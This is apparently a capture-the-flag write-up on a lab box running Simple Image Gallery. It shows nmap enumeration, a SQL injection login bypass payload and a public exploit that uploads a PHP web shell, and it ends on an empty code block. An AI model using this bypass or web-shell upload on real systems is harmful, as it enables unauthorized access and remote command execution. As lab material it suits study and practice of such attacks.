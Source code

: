 # IP
10.10.58.133

## Enumeration
### Nmap
Found two ports running on the system.
```console
❯ nmap -sC -sV 10.10.58.133 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 11:40 IST
Nmap scan report for 10.10.58.133
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.72 seconds
```
### http://10.10.58.133:8080
1. Found a login screen.
2. Just to test a payload user `admin' || ' 1==1` and password as `admin' || ' 1==1`.
3. Logged in as `Administrator`.
4. On searchsploit CMS `Simple Image Gallery`, so used exploit rather than uploading malicious file and getting a reverse shell.


## Exploit
### CMS
```console
❯ python3 50214.py
TARGET = http://10.10.58.133:8080
Login Bypass
shell name TagojeiavxeyjeimuxrLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=whoami

```
On going to the shell URL, found that we can now use reverse shell. (Could also have uploaded a reverse shell inside code of exploit)
```console
```